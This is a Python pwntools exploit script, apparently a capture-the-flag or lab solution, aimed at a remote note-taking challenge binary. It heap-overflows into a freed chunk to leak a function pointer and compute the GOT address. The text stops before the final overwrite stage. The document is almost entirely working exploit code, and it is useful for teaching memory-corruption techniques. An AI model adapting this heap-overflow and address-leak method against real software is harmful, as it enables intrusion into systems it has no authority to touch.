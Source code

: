 ```python
#!/usr/bin/python3

from pwn import *

#p = process('./notezpz')
p = remote('plsdonthaq.me', 7003)
#gdb.attach(p)

# create question
def create():
    p.readuntil('choice,')
    p.sendline('c')

# delete question
def delete(index):
    p.readuntil('choice,')
    p.sendline('d')
    p.readuntil('id:')
    p.sendline(str(index))

# setting question
def setQuestion(index, question):
    p.readuntil('choice,')
    p.sendline('s')
    p.readuntil('id')
    p.sendline(str(index))

    p.readuntil('question')
    p.sendline(question)

# ask a question
def askQuestion(index):
    p.readuntil('choice,')
    p.sendline('a')
    p.readuntil('id')
    p.sendline(str(index))

    p.readuntil("perhaps: '")

# Extra space to be used later
create()
create()

# create 2, overwrite the second one
create()
create()
delete(3)   # offset by 2

# Overflow into the freed chunk
setQuestion(2, b'A' * 31)

# malloc the freed chunk again.
# This deletes the null byte at the end, creating a leak
create()

# Leak the address of the print function
askQuestion(2)
inp = p.readuntil("'", drop=True)
print_func = u32(inp[-4:])

# The got is at a constant offset from the print function
printf_got = print_func + 0x27ba

```